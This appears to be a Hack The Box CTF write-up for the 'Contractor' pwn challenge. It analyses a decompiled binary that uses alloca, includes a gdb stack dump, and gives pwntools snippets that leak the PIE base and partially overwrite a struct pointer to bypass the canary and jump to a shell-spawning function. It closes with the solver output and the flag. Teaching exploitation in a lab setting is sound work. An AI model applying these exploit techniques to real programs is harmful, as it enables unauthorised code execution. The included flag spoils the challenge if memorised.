

    	<font size="10">Contractor</font>

​		19<sup>th</sup> December 2024/ Document No. D24.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=orange>Medium</font>

​		Classification: Official

 


# Synopsis

Contractor is a Medium difficulty challenge that features leaking pie address due to `macro` read not `null` terminating the input and the existence of buffer overflow, understanding how `alloca` works and bypassing the canary, overwriting the return address with the function that spawns shell.

# Description

Sir Alaric calls upon the bravest adventurers to join him in assembling the mightiest army in all of Eldoria. Together, you will safeguard the peace across the villages under his protection. Do you have the courage to answer the call?

## Skills Required

- Basic C, Buffer Overflows, Stack internals.

## Skills Learned

- Bypassing stack canary, stack layout, overwriting `Struct` methods, `alloca`.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'./glibc/'
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

### Protections 🛡️

As we can see, all protections are enabled:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 



### Disassembly

Starting with `main()`:

```c
00001441  int32_t main(int32_t argc, char** argv, char** envp)

00001441  {
00001445      int64_t __saved_rbp_1;
00001445      int64_t __saved_rbp = __saved_rbp_1;
00001449      int32_t var_28;
00001449      int32_t* i = &var_28;
0000144d      void* fsbase;
0000144d      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001478      int64_t rax_2 = ((COMBINE(0, 0x13f) / 0x10) * 0x10);
00001478      
❓️00001492      while (i != (&var_28 - (rax_2 & 0xfffffffffffff000)))
00001492      {
00001494          i -= _init;
0000149b          *(uint64_t*)((char*)i + 0xff8) = *(uint64_t*)((char*)i + 0xff8);
❓️00001492      }
00001492      
000014af      void* rsp_1 = ((char*)i - ((uint64_t)(rax_2 & 0xfff)));
000014af      
000014be      if (((uint64_t)(rax_2 & 0xfff)) != 0)
000014be      {
000014c9          void* rax_5 = ((((uint64_t)(rax_2 & 0xfff)) - 8) + rsp_1);
000014cc          *(uint64_t*)rax_5 = *(uint64_t*)rax_5;
000014be      }
000014be      
000014db      uint64_t rax_9 = ((((char*)rsp_1 + 0xf) >> 4) << 4);
000014f4      memset(rax_9, 0, 0x128);
0000151a      printf("%s[%sSir Alaric%s]: Young lad, I…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
0000151f      i = 0;
0000151f      
0000157a      while (i <= 0xf)
0000157a      {
0000153c          read(0, &safe_buffer, 1);
0000153c          
0000154a          if (safe_buffer == 0xa)
0000154a              break;
0000154a          
0000155f          *(uint8_t*)(rax_9 + ((int64_t)i)) = safe_buffer;
0000156b          i += 1;
0000157a      }
0000157a      
00001599      printf("\n[%sSir Alaric%s]: Excellent! N…", "\x1b[1;33m", "\x1b[1;34m");
0000159e      i = 0;
0000159e      
000015fc      while (i <= 0xff)
000015fc      {
000015bb          read(0, &safe_buffer, 1);
000015bb          
000015c9          if (safe_buffer == 0xa)
000015c9              break;
000015c9          
000015de          *(uint8_t*)((rax_9 + ((int64_t)i)) + 0x10) = safe_buffer;
000015eb          i += 1;
000015fc      }
000015fc      
0000161b      printf("\n[%sSir Alaric%s]: That's quite…", "\x1b[1;33m", "\x1b[1;34m");
00001639      __isoc99_scanf(&data_21b0, (rax_9 + 0x110));
00001658      int512_t zmm0;
00001658      int512_t zmm1;
00001658      int512_t zmm2;
00001658      int512_t zmm3;
00001658      int512_t zmm4;
00001658      int512_t zmm5;
00001658      int512_t zmm6;
00001658      int512_t zmm7;
00001658      zmm0 = printf("\n[%sSir Alaric%s]: You sound ma…", "\x1b[1;33m", "\x1b[1;34m");
0000165d      i = 0;
0000165d      
000016bc      while (i <= 0xf)
000016bc      {
0000167a          zmm0 = read(0, &safe_buffer, 1);
0000167a          
00001688          if (safe_buffer == 0xa)
00001688              break;
00001688          
0000169d          *(uint8_t*)((rax_9 + ((int64_t)i)) + 0x118) = safe_buffer;
000016ad          i += 1;
000016bc      }
000016bc      
000016d0      *(uint64_t*)(rax_9 + 0x110);
000016e7      *(uint64_t*)((char*)rsp_1 - 0x10) = (rax_9 + 0x118);
0000170b      printf(/* nop */, /* nop */)
00001714      int32_t counter = 0;
00001735      printf("[%sSir Alaric%s]: Please review …", "\x1b[1;33m", "\x1b[1;34m");
00001735      
00001a7a      do
00001a7a      {
00001746          printf("\n1. Name      2. Reason\n3. Age…");
0000175e          __isoc99_scanf(&data_23c6, &var_28);
00001763          int32_t rax_44 = var_28;
00001763          
00001769          if (rax_44 == 4)
00001769          {
0000192c              printf("\n%s[%sSir Alaric%s]: And what a…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00001931              i = 0;
00001931              
00001992              while (i <= 0xff)
00001992              {
0000194e                  read(0, &safe_buffer, 1);
0000194e                  
0000195c                  if (safe_buffer == 0xa)
0000195c                      break;
0000195c                  
00001971                  *(uint8_t*)((rax_9 + ((int64_t)i)) + 0x118) = safe_buffer;
00001981                  i += 1;
00001992              }
00001992              
00001997              counter += 1;
00001769          }
00001769          else
00001769          {
00001772              if (rax_44 > 4)
00001772              {
000019be              label_19be:
000019be                  printf("\n%s[%sSir Alaric%s]: Are you mo…", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
000019c8                  exit(0x520);
000019c8                  /* no return */
00001772              }
00001772              
0000177b              if (rax_44 == 3)
0000177b              {
000018df                  printf("\n%s[%sSir Alaric%s]: Did you sa…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
000018fd                  __isoc99_scanf(&data_23c6, (rax_9 + 0x110));
00001902                  counter += 1;
0000177b              }
0000177b              else
0000177b              {
00001784                  if (rax_44 > 3)
00001784                      goto label_19be;
00001784                  
0000178d                  if (rax_44 == 1)
0000178d                  {
000017be                      printf("\n%s[%sSir Alaric%s]: Say your n…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
000017c3                      i = 0;
000017c3                      
0000181e                      while (i <= 0xf)
0000181e                      {
000017e0                          read(0, &safe_buffer, 1);
000017e0                          
000017ee                          if (safe_buffer == 0xa)
000017ee                              break;
000017ee                          
00001803                          *(uint8_t*)(rax_9 + ((int64_t)i)) = safe_buffer;
0000180f                          i += 1;
0000181e                      }
0000181e                      
00001823                      counter += 1;
0000178d                  }
0000178d                  else
0000178d                  {
00001792                      if (rax_44 != 2)
00001792                          goto label_19be;
00001792                      
0000184d                      printf("\n%s[%sSir Alaric%s]: Specify th…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00001852                      i = 0;
00001852                      
000018b0                      while (i <= 0xff)
000018b0                      {
0000186f                          read(0, &safe_buffer, 1);
0000186f                          
0000187d                          if (safe_buffer == 0xa)
0000187d                              break;
0000187d                          
00001892                          *(uint8_t*)((rax_9 + ((int64_t)i)) + 0x10) = safe_buffer;
0000189f                          i += 1;
000018b0                      }
000018b0                      
000018b5                      counter += 1;
0000178d                  }
0000177b              }
00001769          }
00001769          
000019d1          if (counter == 1)
000019d1          {
000019f8              printf("\n%s[%sSir Alaric%s]: I suppose …", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
000019fd              i = 0;
00001a55              void var_14;
00001a55              
00001a55              while (i <= 3)
00001a55              {
00001a1a                  read(0, &safe_buffer, 1);
00001a1a                  
00001a28                  if (safe_buffer == 0xa)
00001a28                      break;
00001a28                  
00001a39                  *(uint8_t*)(&var_14 + ((int64_t)i)) = safe_buffer;
00001a46                  i += 1;
00001a55              }
00001a55              
00001a74              if (strncmp(&var_14, &data_2526, 3) == 0)
00001a74                  break;
000019d1          }
00001a7a      } while (counter <= 1);
00001a7a      
00001aa4      printf("\n%s[%sSir Alaric%s]: We are rea…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00001aa4      
00001abb      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
00001ac3          return 0;
00001ac3      
00001abd      __stack_chk_fail();
00001abd      /* no return */
00001441  }
```

The code is pretty big, but the overall is:

* It uses `alloca` to allocate memory on the stack
  ```c
  00001478      int64_t rax_2 = ((COMBINE(0, 0x13f) / 0x10) * 0x10);
  00001478      
  00001492      while (i != (&var_28 - (rax_2 & 0xfffffffffffff000)))
  00001492      {
  00001494          i -= _init;
  0000149b          *(uint64_t*)((char*)i + 0xff8) = *(uint64_t*)((char*)i + 0xff8);
  00001492      }
  00001492      
  000014af      void* rsp_1 = ((char*)i - ((uint64_t)(rax_2 & 0xfff)));
  000014af      
  000014be      if (((uint64_t)(rax_2 & 0xfff)) != 0)
  000014be      {
  000014c9          void* rax_5 = ((((uint64_t)(rax_2 & 0xfff)) - 8) + rsp_1);
  000014cc          *(uint64_t*)rax_5 = *(uint64_t*)rax_5;
  000014be      }
  000014be      
  000014db      uint64_t rax_9 = ((((char*)rsp_1 + 0xf) >> 4) << 4);
  000014f4      memset(rax_9, 0, 0x128);
  ```

  Since we're using `alloca`, the address lies higher than the buffer. We understand the potential use of `alloca` from:

  **Stack Memory Allocation**:

  - The operations in this function involve manipulating stack-related addresses (`rsp_1`) and aligning memory to specific boundaries, which is characteristic of `alloca`.

  **Dynamic Adjustment**:

  - The function dynamically calculates memory size (`rax_2`) and ensures alignment for stack memory. This dynamic adjustment matches `alloca`'s behavior, which adjusts the stack pointer at runtime based on the requested size.

  **Alignment and Initialization**:

  - The memory is aligned to 16 bytes and zeroed out with `memset`. `alloca` often performs similar alignment to ensure proper access to the allocated memory.

  **Use of Local Variables**:

  - The manipulation of `i`, `var_28`, and other stack-related addresses indicates that the allocated memory is stack-based, just like `alloca`.

* The `read` function uses some type of `macro`, cause it is used like this:

  ```c
  0000157a      while (i <= 0xf)
  0000157a      {
  0000153c          read(0, &safe_buffer, 1);
  0000153c          
  0000154a          if (safe_buffer == 0xa)
  0000154a              break;
  0000154a          
  0000155f          *(uint8_t*)(rax_9 + ((int64_t)i)) = safe_buffer;
  0000156b          i += 1;
  0000157a      }
  ```

* There is a `Struct` let's call it `Info` that has this structure:
  ```c
  struct Info {
    char name[0x10];
    char reason[0x100];
    long age;
    char specialty[0x10];
  };
  ```

  If the lowest byte of the structure address is rewritten due to a stack Buffer Overflow , the address will start to be overwritten from there. That means, the return address will be overwritten, skipping the stack canary.

* Since the `macro` read does not `nullify` the last byte, if we fill the buffer, we can leak the address after.

  ```python
  # Step 1: Send initial inputs to set up the exploit
  sla('> ', 'w3t')
  sla('> ', 'h4nds')
  sla('> ', '69')
  pl = 'w3th4nds' * 2
  sla('> ', pl)
  
  # Step 2: Leak PIE base address from the response
  r.recvuntil(pl)
  pie_leak = r.recvline().strip()
  e.address = u64(pie_leak.ljust(8, b'\x00')) - 0x1b50
  print(f'\r[*] Tries: {cnt} -> PIE base: {e.address:#04x}', end='', flush=False)
  ```

### Debugging 

```gdb
pwndbg> x/50gx 0x7fffffffdc10
0x7fffffffdc10:	0x0000000041414141	0x0000000000000000 // name
0x7fffffffdc20:	0x0000000042424242	0x0000000000000000 // reason
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000000000	0x0000000000000000
0x7fffffffdc90:	0x0000000000000000	0x0000000000000000
0x7fffffffdca0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcb0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdce0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcf0:	0x0000000000000000	0x0000000000000000
0x7fffffffdd00:	0x0000000000000000	0x0000000000000000
0x7fffffffdd10:	0x0000000000000000	0x0000000000000000
0x7fffffffdd20:	0x000000000000000b	0x0000000000004343 // age, specialty
0x7fffffffdd30:	0x0000000000000000	0x0000555555555b50 // leaked address
0x7fffffffdd40:	0x0000000000000000	0x00007fffffffdc10 // local variables
0x7fffffffdd50:	0x00007fffffffde50	0x69f4f0d93c406a00 // canary
0x7fffffffdd60:	0x0000000000000000	0x00007ffff7df9083 // ret address
0x7fffffffdd70:	0x0000000000000071	0x00007fffffffde58
0x7fffffffdd80:	0x00000001f7fbd7a0	0x0000555555555441
0x7fffffffdd90:	0x0000555555555b50	0x16790fe34929ead8
```

It is important to note that the pointer `inf` (as we’ll refer to it), which points to the `Info` structure, is located at a higher memory address than the stack area allocated for `Info`. This placement makes it vulnerable to being overwritten during a buffer overflow. Similarly, local variables in the same stack frame are also susceptible to being overwritten.

Although you cannot directly leak the stack address, the `macro` read function, which is not null-terminated, allows you to shift the pointer `inf` to a desired address with some probability by rewriting the least significant byte of `inf`'s address. Specifically, this allows overlapping the starting address of the `specialty` buffer with the return address.

In the given example, the address on the stack where the return address is stored is `0x7fffffffdd68`, and the starting address of the `specialty` buffer is `0x7fffffffdd28`. This overlap enables manipulation of the return address through the buffer overflow.

We can do something like this to call the `contract` function that spawns shell.

```python
# Step 3: Craft the payload and trigger the vulnerability
sla('> ', '4')
payload  = b'\x00' * 0x20
payload += b'\x3f'
payload += p64(e.address + 0x101a)  # ret gadget
payload += p64(e.sym.contract)
payload += b'A' * 0x20
sla(': ', payload)
```

# Solution

```bash
Running solver Remotely..

[*] Tries: 14 -> PIE base: 0x56bda6a4f000

[+] Flag -> HTB{4_l1ttl3_bf_41nt_b4d}
```

